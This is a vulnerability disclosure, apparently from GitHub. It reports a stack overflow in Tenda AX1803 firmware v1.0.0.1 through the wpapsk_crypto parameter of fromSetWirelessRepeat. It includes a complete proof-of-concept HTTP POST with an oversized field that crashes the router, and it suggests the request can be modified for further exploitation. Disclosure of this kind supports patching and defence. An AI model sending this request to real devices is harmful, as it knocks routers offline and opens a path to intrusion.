




# Tenda AX1803 v1.0.0.1 contains a stack overflow via the wpapsk_crypto parameter in the function fromSetWirelessRepeat

## Firmware infomation

- Manufacturer's address：https://www.tenda.com.cn/
- Affected firmware infomation：https://www.tenda.com.cn/download/detail-3421.html
- Affected firmware version：v1.0.0.1


## Vulnerability Description

Tenda AX1803 v1.0.0.1 contains a stack overflow via the wpapsk_crypto parameter in the function fromSetWirelessRepeat.







## POC

```
POST /goform/WifiExtraSet HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=002a77b3f3cdec7e900d0be9a911fb6bakmtgb
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 351

wifi_chkHz=0&wl_mode=wisp&security=wpapsk&wpapsk_type=wpa&wpapsk_key=aaaaaaaaaaa&wpapsk_crypto=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



The router will crash after sending the poc, and you may modify this for further exploiting.